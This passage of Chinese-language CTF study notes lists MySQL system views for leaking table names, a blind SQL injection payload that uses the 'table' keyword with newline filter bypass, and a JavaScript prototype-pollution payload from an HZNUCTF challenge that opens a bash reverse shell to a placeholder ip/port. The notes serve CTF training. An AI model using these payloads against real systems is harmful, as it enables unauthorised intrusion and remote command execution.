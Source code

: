 >   -   **Mysql 5.7.9中新增视图**

```sql
# 不包含in
select table_name from `sys`.`x$schema_flattened_keys` where table_schema = database();
select table_name from `sys`.`x$ps_schema_table_statistics_io` where table_schema = database();
select table_name from `sys`.`x$schema_table_statistics_with_buffer` where table_schema = database();

# 通过表文件的存储路径获取表名
select file from `sys`.`io_global_by_file_by_bytes` where file regexp database();
select file from `sys`.`io_global_by_file_by_latency` where file regexp database();
select file from `sys`.`x$io_global_by_file_by_bytes` where file regexp database();

# 包含之前查询记录的表
select query from sys.x$statement_analysis where query regexp database();
select query from `sys`.`statement_analysis` where query regexp database();

```

>   -   **Mysql 8.0.19 新增`table`关键字 ，它不支持有`where`子句，只显示表的所有列**

```sql
# 它的做用是代替select，比如
select * from test; ==  table test;
```

>   **可以用来盲注**

```sql
admin'and\x0a(table\x0ainformation_schema.tablespaces_extensions\x0alimit\x0a7,1)>
(binary('{}'),'0')#

admin' and (table information_schema.tablespaces_extensions limit)
```



****

## 4、js原型链

详细介绍js原型链与vm：**[HZNUCTF 2023 final]eznode**

使用到的playload

```json
{"shit":1,"__proto__":{"shellcode":"let res = import('./app.js'); res.toString.constructor(\"return this\") ().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"').toString();"}} 

```



>   ```markdown
>   对象(obj)中寻找这一属性
>   如果找不到，则在obj.__proto__中寻找属性
>   如果仍然找不到，则继续在obj.__proto__.__proto__中寻找这一属性
>   ```
